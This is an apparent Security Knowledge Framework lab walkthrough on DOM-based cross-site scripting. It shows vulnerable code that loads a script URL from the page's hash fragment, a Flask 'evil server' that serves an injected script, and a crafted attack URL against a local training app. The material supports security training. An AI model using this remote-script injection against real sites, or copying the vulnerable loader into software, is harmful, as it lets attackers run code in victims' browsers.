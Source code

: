 # KBID 3 - Cross Site Scripting \(DOM-2\)

## Running the app Java

First make sure java is installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step 1

The application shows no input field or anything else we can interact with. Let's inspect the source code.

![](../../.gitbook/assets/nodejs/XSS-DOM-2/4.png)

Inspecting the source code of the application.

![](../../.gitbook/assets/nodejs/XSS-DOM-2/5.png)

```javascript
function loadWelcomeMessage() {
  setTimeout(function () {
    endpoint = location.hash.slice(5);
    var script = document.createElement("script");
    if (endpoint) {
      script.src = endpoint + "/js/welcome.js";
    } else {
      script.src = "/js/welcome.js";
    }
    document.head.appendChild(script);
  }, 2000);
}
```

We notice the application imports javascript files into the application using this function.

```javascript
endpoint = location.hash.slice(5);
```

Declaring endpoint variable which takes the url, whatever is after the hash(#) and using slice to remove the first 4 characters after that. If the endpoint exists it will load the js file from there.

![](../../.gitbook/assets/nodejs/XSS-DOM-2/1.png)

## Exploitation

We can start building our malicious server and server the application with our malicious js file.

```python
from flask import Flask

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<path:path>")
def static_file(path):
    return app.send_static_file(path)

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)

```

Save the snippet above to &gt; evil_server.py and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be python flask.

```text
$ pip3 install flask
```

Now we need to create our malicous js file, save the following snippet code into /static/js/welcome.js

```javascript
document.getElementsByClassName("panel-body")[0].innerText = "pwned!!!";
```

We are ready to start our server:

```text
$ python3 evil_server.py
```

![](../../.gitbook/assets/nodejs/XSS-DOM-2/2.png)

Now we can serve our malicious js file to the application

```text
http://localhost:5000/#xxxxhttp://localhost:1337
```

![](../../.gitbook/assets/nodejs/XSS-DOM-2/3.png)

## Additional sources

Please refer to the OWASP testing guide for a full complete description about cross site scripting!

{% embed url="https://owasp.org/www-community/attacks/XSS-DOM-2/" %}
